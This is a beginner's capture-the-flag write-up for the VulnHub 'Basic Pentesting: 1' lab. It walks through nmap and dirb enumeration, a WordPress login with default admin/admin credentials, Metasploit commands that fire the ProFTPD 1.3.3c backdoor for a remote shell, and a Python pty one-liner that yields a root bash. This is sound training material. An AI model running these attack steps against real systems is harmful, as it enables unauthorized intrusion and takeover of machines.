# Basic Pentesting: 1 Writeup

## About the Capture the Flag 
Name: Basic Pentesting: 1\
Difficulty: Easy\
Author: [Josiah Pierce](https://www.vulnhub.com/author/josiah-pierce,569/)\
Link: [LINK TO CTF](https://www.vulnhub.com/entry/basic-pentesting-1,216/)

## Start of writeup

### Introduction
This CTF is one of the first CTFs I've done whilst diving deeper into cybersecurity, it's a very simple, and beginner friendly CTF which serves the purpose of showing basic tools used to enumerate a network and target. 

### Goal of the CTF
The goal of this CTF is to remotely attack the Virtual Machine and gain root access/privileges. 

### Gaining root access
Since there's only one goal during this CTF challenge, gaining root access of the VM, the goal is simple. The first step is to enumerate the network and the target. Enumeration is the process of gaining more knowledge about the target you're attacking. Think about things like usernames, machine names, network resources, open ports, versions of services running on the system. With the information gathered in this phase weak points of the system are exposed and points of entry are established.

The enumeration process during this CTF consisted of doing a [Netdiscover](https://kalilinuxtutorials.com/netdiscover-scan-live-hosts-network/) scan to see what the IP address is of the VM machine. 

```python
netdiscover -r 192.168.0.0
```

The scan returns the IP address of 192.168.0.16, this will be the IP we'll be working with. The next step is to do an NMAP scan, NMAP is a scanning tool which allows us to map out the ports used on the target, what they're running and what version of it is running. For more information about NMAP, the different flags etc, visit [the NMAP website](https://nmap.org). For our CTF we use the following command:

```python
nmap -sC -sV -sS -AT4 192.168.0.16
```

![bpen_nmap.jpg](./images/bpen_nmap.jpg)

The scan shows that there are three ports: 21,22 and 80. Usually by default, these ports run FTP, SSH and HTTP respectively. The first thing I do is try to see if there's anything interesting to find at the FTP part of things. The common "anonymous" user exists but the password is unknown, trying the usual things as anonymous/anonymous didn't work either. We'll leave FTP be for now.\

The next logical step is visiting the website ran on port 80. Upon visiting the website we're greeted with a basic HTML page, saying it works.

![landing_page.jpg](./images/landing_page.jpg)

When checking the page's source code, which is often overlooked, there's nothing noticeable either. Seeing there's no buttons or links you can click to scout the website further, it's time for a directory buster tool. We'll use dirb for this. DIRB is a web content scanner it looks for existing and hidden Web Objects. You do this by launching an attack to a site where it goes through a common wordlist to check if they apply to that target. /admin for example is a commonly used Web Object which usually is hidden but existing.

```python
dirb http://192.168.0.16
```
![dirb_find.jpg](./images/dirb_find.jpg)

This scan highlighted a lot of interesting things, it shows an interesting directory named "/secret". Also several WP components came to light, indicating that there is a WordPress website in the secret folder. Upon going to the directory you're greeted with a WordPress website with a login and some blog posts, navigate to the login page down at the page. Almost all well known networking devices and applications come preconfigured with a default password and username. Sometimes users of these devices and applications forget to change the password of this user or forget to remove this user entirely. In the case of WordPress, the default name and password are "admin" & "admin". When we try this on this website, it actually works and it seems like the developers forgot to change the password to something different. Thanks to this mistake we now got access to the admin panel of the WordPress website. In other circumstances there's a possibility to use the WPSCAN tool, a WordPress security scanner which can brute force usernames and passwords for WordPress.

![admin_panel.jpg](./images/admin_panel.jpg)

One of the things you can do from here is upload a malicious PHP file that contains a shell which allows for commands to be executed from a shell on the target host. But I decided to see if there was other ways in. I decided to run a searchsploit request for the FTP version of the software running on port 21 earlier. Searchsploit looks for vulnerabilities in outdated versions of software.

```python
searchsploit ProFTPD 1.3.3c
```

![searchsploit_ftp.jpg](./images/searchsploit_ftp.jpg)

As shown on the image the search resulted in finding a successful backdoor exploit. The next step is by starting up the msfconsole and run the said exploit. The msfconsole is part of Metasploit. It allows you to efficiently use all the options available in Metasploit.

![msfconsole.jpg](./images/msfconsole.jpg)

After setting up all the information for the exploit, the listening host (us), the target host, what port to target and what port we want to listen on, it's time to execute the selected exploit. We executed the following command to set up the exploit:

```python
set RHOSTS 192.168.0.16
set payload 3
set LHOST 192.168.0.15
exploit
```

![msfconsole_exploit.jpg](./images/msfconsole_exploit.jpg)

As you can see command shell is opened, although there's one small problem, there's no command line to be seen. To fix this, we need a little bit of Python code. After executing this line of code, we got root access to the machine!!

```python
python -c 'import pty; pty.spawn("/bin/bash")'
```

![pythonroot.jpg](./images/pythonroot.jpg)

### Conclusion
The Basic Pentesting - 1 CTF was very easy to complete. During this CTF we managed to exploit different parts of the system. The HTTP website by using a directory attack, the WordPress website by using WPSCAN/default credentials and of course using Metasploit to exploit FTP. Also, some Python code was used to go from a limited shell to full root access. There were different approaches to this but I found using this approach to gaining root access did it for me. Good luck and have fun with this CTF!




